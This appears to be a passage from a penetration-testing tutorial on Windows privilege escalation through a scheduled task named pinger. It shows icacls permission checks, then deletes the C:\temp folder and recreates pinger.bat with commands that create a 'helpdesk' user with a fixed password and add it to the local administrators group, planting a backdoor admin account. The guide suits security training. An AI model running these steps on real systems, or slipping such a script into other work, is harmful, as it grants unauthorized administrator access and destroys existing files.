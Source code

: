 ### Scheduled Tasks (pinger)

We have identified a scheduled task running under an administrative account, and we have permission (Indirect) to modify the script it runs.

**Steps:**

1. **Check File and Folder Permissions**:

   - Ensure you can edit the script or file that the task runs by checking the permissions with the following command:

     ```bash
     icacls C:\temp\pinger.bat
     ```

     Output example:

     ```bash
     pinger.bat NT AUTHORITY\SYSTEM:(F)
                BUILTIN\Administrators:(F)
                BUILTIN\Users:(RX)
     ```

     - In this case, **BUILTIN\Users** only has **(RX)** (Read & Execute) access to the file, meaning regular users can only read and run it but cannot modify it.

   - Next, check the permissions on the folder:

     ```bash
     icacls C:\temp
     ```

     Output example:

     ```bash
     . BUILTIN\Users:(OI)(CI)(F)
       NT AUTHORITY\Authenticated Users:(I)(M)
     ```

     - Here, **BUILTIN\Users** have **(F)** (Full Control) on the folder, meaning you can add, delete, or modify files in this directory, even though the specific file `pinger.bat` cannot be modified directly.

2. **Bypass File Restrictions**:

   - Since you cannot directly modify `pinger.bat`, you can delete the `C:\temp` folder entirely and recreate it with your own script. First, delete the `C:\temp` folder:

     ```bash
     del C:\temp
     ```

     Confirm the deletion when prompted.

   - Recreate the folder and add your own version of the `pinger.bat` file:

     ```bash
     mkdir C:\temp
     echo net user helpdesk L3tm3!n /add > C:\temp\pinger.bat
     echo net localgroup administrators helpdesk /add >> C:\temp\pinger.bat
     ```
